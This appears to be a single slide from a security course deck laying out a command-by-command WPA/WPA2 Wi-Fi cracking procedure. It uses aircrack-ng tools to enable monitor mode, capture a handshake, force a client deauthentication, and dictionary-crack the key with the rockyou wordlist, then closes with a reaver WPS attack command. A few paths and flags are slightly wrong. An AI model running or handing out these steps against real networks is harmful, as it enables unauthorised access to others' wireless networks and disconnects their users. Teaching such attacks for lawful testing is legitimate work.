

WPA and WPA2
~$ airmon-ng stop ath0
~$ iwconfig
~$ airmon-ng start wlp4s0 9
Check monitor mode
~$ iwconfig
~$ airodump-ng interfacemonitor
~$ airodump-ng -c 1 --bssid macBSSID -w file interfacemonitor
~$ airodump-ng interfacemonitor
Select client that STATION is equal to BSSID
~$ aireplay-ng -0 1 -a macBSSID -c macClient interfacemonitor
Get a dictionary gunzip /user/share/worldlists/rockyou.txt.gz
and remove duplicates with sort diccionari | uniq -u > dictionariU
~$ aircrack-ng -w dictionariU -b macBSSID file*.cap
~$ airodump-ng -c 1 --bssid macBSSID -w file interface
Probably we will get the key.

Have an exploit if there is a WPS in the network
Only is possible attack PSK authentication
Are more secure than WEP

~$ reaver -b ESSID -i interface -vv
25